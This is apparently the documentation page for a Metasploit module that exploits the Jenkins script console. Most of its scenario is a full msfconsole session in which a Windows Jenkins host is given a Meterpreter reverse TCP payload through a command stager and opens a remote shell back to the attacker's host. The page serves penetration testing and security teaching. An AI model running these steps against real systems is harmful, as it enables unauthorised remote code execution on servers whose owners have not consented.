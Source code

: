 ## Vulnerable Application

  Jenkins can be downloaded from [jenkins.io](https://jenkins.io/) where
  binaries are available for a variety of operating systems. Both LTS and weekly
  builds are available.

  Default settings have the script console enabled and require a valid user
  account in order to access it. A known account can be used with this module by
  setting the `USERNAME` and `PASSWORD` options.

## Verification Steps

  Example steps in this format:

  1. Install the application
  1. Start msfconsole
  1. Do: ```use exploit/multi/http/jenkins_script_console```
  1. Do: ```set RHOST [target host]```
  1. Do: ```set TARGET [target id]```
  1. Do: ```exploit```
  1. You should get a shell.

## Options

  **TARGETURI**

  The path to the target instance of Jenkins.

  **USERNAME**

  A username to an account that has access to the script console. This is only
  necessary if the Jenkins instance has been configured to require
  authentication.

  **PASSWORD**

  A password to an account that has access to the script console. This is only
  necessary if the Jenkins instance has been configured to require
  authentication.

## Scenarios

  Example usage against a Windows 7 SP1 x64 bit target running Jenkins 2.19.1.

  ```
  msf > use exploit/multi/http/jenkins_script_console
  msf exploit(jenkins_script_console) > set TARGETURI /
  TARGETURI => /
  msf exploit(jenkins_script_console) > set USERNAME steiner
  USERNAME => steiner
  msf exploit(jenkins_script_console) > set PASSWORD I<3msf!
  PASSWORD => I<3msf!
  msf exploit(jenkins_script_console) > set RHOST 192.168.254.126
  RHOST => 192.168.254.126
  msf exploit(jenkins_script_console) > set RPORT 8080
  RPORT => 8080
  msf exploit(jenkins_script_console) > set PAYLOAD windows/meterpreter/reverse_tcp
  PAYLOAD => windows/meterpreter/reverse_tcp
  msf exploit(jenkins_script_console) > set LHOST 192.168.254.132
  LHOST => 192.168.254.132
  msf exploit(jenkins_script_console) > exploit

  [*] [2016.10.29-18:43:07] Started reverse TCP handler on 192.168.254.132:4444
  [*] [2016.10.29-18:43:07] Checking access to the script console
  [*] [2016.10.29-18:43:07] Logging in...
  [*] [2016.10.29-18:43:07] Using CSRF token: '9623d245b9d60b5ceda72e2d3613431c' (Jenkins-Crumb style)
  [*] [2016.10.29-18:43:07] 192.168.254.126:8080 - Sending command stager...
  [*] [2016.10.29-18:43:08] Command Stager progress -   2.06% done (2048/99626 bytes)
  [*] [2016.10.29-18:43:08] Command Stager progress -   4.11% done (4096/99626 bytes)
  [*] [2016.10.29-18:43:08] Command Stager progress -   6.17% done (6144/99626 bytes)
  [*] [2016.10.29-18:43:09] Command Stager progress -   8.22% done (8192/99626 bytes)
  [*] [2016.10.29-18:43:09] Command Stager progress -  10.28% done (10240/99626 bytes)
  [*] [2016.10.29-18:43:09] Command Stager progress -  12.33% done (12288/99626 bytes)
  [*] [2016.10.29-18:43:10] Command Stager progress -  14.39% done (14336/99626 bytes)
  [*] [2016.10.29-18:43:10] Command Stager progress -  16.45% done (16384/99626 bytes)
  [*] [2016.10.29-18:43:10] Command Stager progress -  18.50% done (18432/99626 bytes)
  [*] [2016.10.29-18:43:11] Command Stager progress -  20.56% done (20480/99626 bytes)
  [*] [2016.10.29-18:43:11] Command Stager progress -  22.61% done (22528/99626 bytes)
  [*] [2016.10.29-18:43:11] Command Stager progress -  24.67% done (24576/99626 bytes)
  [*] [2016.10.29-18:43:12] Command Stager progress -  26.72% done (26624/99626 bytes)
  [*] [2016.10.29-18:43:12] Command Stager progress -  28.78% done (28672/99626 bytes)
  [*] [2016.10.29-18:43:12] Command Stager progress -  30.84% done (30720/99626 bytes)
  [*] [2016.10.29-18:43:13] Command Stager progress -  32.89% done (32768/99626 bytes)
  [*] [2016.10.29-18:43:13] Command Stager progress -  34.95% done (34816/99626 bytes)
  [*] [2016.10.29-18:43:13] Command Stager progress -  37.00% done (36864/99626 bytes)
  [*] [2016.10.29-18:43:14] Command Stager progress -  39.06% done (38912/99626 bytes)
  [*] [2016.10.29-18:43:14] Command Stager progress -  41.11% done (40960/99626 bytes)
  [*] [2016.10.29-18:43:14] Command Stager progress -  43.17% done (43008/99626 bytes)
  [*] [2016.10.29-18:43:15] Command Stager progress -  45.23% done (45056/99626 bytes)
  [*] [2016.10.29-18:43:15] Command Stager progress -  47.28% done (47104/99626 bytes)
  [*] [2016.10.29-18:43:15] Command Stager progress -  49.34% done (49152/99626 bytes)
  [*] [2016.10.29-18:43:16] Command Stager progress -  51.39% done (51200/99626 bytes)
  [*] [2016.10.29-18:43:16] Command Stager progress -  53.45% done (53248/99626 bytes)
  [*] [2016.10.29-18:43:17] Command Stager progress -  55.50% done (55296/99626 bytes)
  [*] [2016.10.29-18:43:17] Command Stager progress -  57.56% done (57344/99626 bytes)
  [*] [2016.10.29-18:43:17] Command Stager progress -  59.61% done (59392/99626 bytes)
  [*] [2016.10.29-18:43:18] Command Stager progress -  61.67% done (61440/99626 bytes)
  [*] [2016.10.29-18:43:18] Command Stager progress -  63.73% done (63488/99626 bytes)
  [*] [2016.10.29-18:43:18] Command Stager progress -  65.78% done (65536/99626 bytes)
  [*] [2016.10.29-18:43:19] Command Stager progress -  67.84% done (67584/99626 bytes)
  [*] [2016.10.29-18:43:19] Command Stager progress -  69.89% done (69632/99626 bytes)
  [*] [2016.10.29-18:43:19] Command Stager progress -  71.95% done (71680/99626 bytes)
  [*] [2016.10.29-18:43:20] Command Stager progress -  74.00% done (73728/99626 bytes)
  [*] [2016.10.29-18:43:20] Command Stager progress -  76.06% done (75776/99626 bytes)
  [*] [2016.10.29-18:43:20] Command Stager progress -  78.12% done (77824/99626 bytes)
  [*] [2016.10.29-18:43:21] Command Stager progress -  80.17% done (79872/99626 bytes)
  [*] [2016.10.29-18:43:21] Command Stager progress -  82.23% done (81920/99626 bytes)
  [*] [2016.10.29-18:43:21] Command Stager progress -  84.28% done (83968/99626 bytes)
  [*] [2016.10.29-18:43:22] Command Stager progress -  86.34% done (86016/99626 bytes)
  [*] [2016.10.29-18:43:22] Command Stager progress -  88.39% done (88064/99626 bytes)
  [*] [2016.10.29-18:43:22] Command Stager progress -  90.45% done (90112/99626 bytes)
  [*] [2016.10.29-18:43:23] Command Stager progress -  92.51% done (92160/99626 bytes)
  [*] [2016.10.29-18:43:23] Command Stager progress -  94.56% done (94208/99626 bytes)
  [*] [2016.10.29-18:43:23] Command Stager progress -  96.62% done (96256/99626 bytes)
  [*] [2016.10.29-18:43:24] Command Stager progress -  98.67% done (98304/99626 bytes)
  [*] [2016.10.29-18:43:24] Sending stage (957999 bytes) to 192.168.254.126
  [*] [2016.10.29-18:43:24] Command Stager progress - 100.00% done (99626/99626 bytes)
  [*] Meterpreter session 1 opened (192.168.254.132:4444 -> 192.168.254.126:49258) at 2016-10-29 18:43:26 -0400

  meterpreter > sysinfo
  Computer        : PWNME-PC
  OS              : Windows 7 (Build 7601, Service Pack 1).
  Architecture    : x64 (Current Process is WOW64)
  System Language : en_US
  Domain          : WORKGROUP
  Logged On Users : 2
  Meterpreter     : x86/win32
  meterpreter >

  ```
